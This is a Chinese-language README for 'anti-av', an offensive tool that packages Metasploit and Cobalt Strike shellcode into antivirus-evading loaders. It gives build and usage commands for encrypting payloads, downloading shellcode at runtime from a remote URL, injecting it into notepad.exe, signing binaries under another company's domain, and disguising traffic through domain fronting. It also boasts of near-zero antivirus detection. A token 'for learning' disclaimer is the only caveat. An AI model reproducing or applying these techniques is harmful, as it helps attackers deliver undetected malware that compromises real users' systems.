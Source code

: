 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或linux环境
2、安装交叉编译 mingw64
3、安装签名 openssl、osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -domain string //签名binary时使用该域名。如果唯恐
        domain to be signed (default "baidu.com")
        
  -e    payload to be encrypted //布尔类型和-sc一起使用，对-sc指定的shellcode文件加密
  
  -ho string //远程加载shellcode时，通过隐藏流量（支持域前置）或混淆host达到干扰蓝队流量研判。
        host obfuscator (default "wwww.baidu.com")
        
  -l string //支持加载shellcode方式
        loader: binary (default "binary")
        
  -os string //支持的操作系统
        OS: windows,linux (default "windows")
        
  -sc string //shellcode的文件或url地址。如果是url，则在运行时访问下载。
        encrypt payload by anti-av: support 'msfvenom -f raw' OR 'cs raw' OR remote url loading (default "payload.e")
  -inject //布尔类型，运行时shellcode注入notepad进程。
        inject payload to notepad.exe       

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密shellcode   | 无                      | ./anti-av -sc ~/Desktop/payload.bin                          |
| 远程加载shellcode | 无                      | 1、./anti-av  -e -sc ~/Desktop/payload.bin    #加密shellcode<br />2、上传payload.e到公共下载服务<br />3、./anti-av -sc http://x.x.x.x/payload.e         #制作加载器 |
| 注入进程          | 会强制注入到notepad.exe | ./anti-av -sc ~/Desktop/payload.bin -inject 或<br />./anti-av -sc http://x.x.x.x/payload.e  -inject |



## 注意

* cs生成raw格式64位 payload，需要勾选x64
* 没有openssl和签名工具的系统可以设置参数 *-domain ""*禁止签名



## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 |
| ---- | ---- | ----------- | -------- |
| 1/68 | √    | √           | √        |

